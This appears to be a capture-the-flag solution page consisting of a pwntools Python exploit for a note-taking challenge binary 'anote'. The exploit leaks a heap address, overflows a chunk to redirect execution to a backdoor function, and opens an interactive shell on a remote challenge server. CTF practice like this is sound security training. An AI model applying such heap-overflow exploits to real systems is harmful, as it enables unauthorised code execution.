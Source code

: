 <img src="assets/telenote.png" width="80%">

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anote'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.200.198.105', 22673)

    def add():
        sh.sendlineafter(b'ice>>', b'1')

    def show(idx: int) -> int:
        sh.sendlineafter(b'ice>>', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'gift: ')
        return int(sh.recvline(), 16)

    def edit(idx: int, size: int, buf: bytes):
        sh.sendlineafter(b'ice>>', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'len', str(size).encode())
        sh.sendlineafter(b'content', buf)

    add()
    add()
    heap = show(0)
    backdoor = 0x80489ce
    success(GOLD_TEXT(f"Leak heap: {heap:#x}"))
    edit(0, 0x1c, p32(backdoor) + b'0'*0x10 + p32(0x21) + p32(heap + 8))
    edit(1, 0, b'x')
        
    sh.clean()
    sh.interactive()
    sh.close()
```
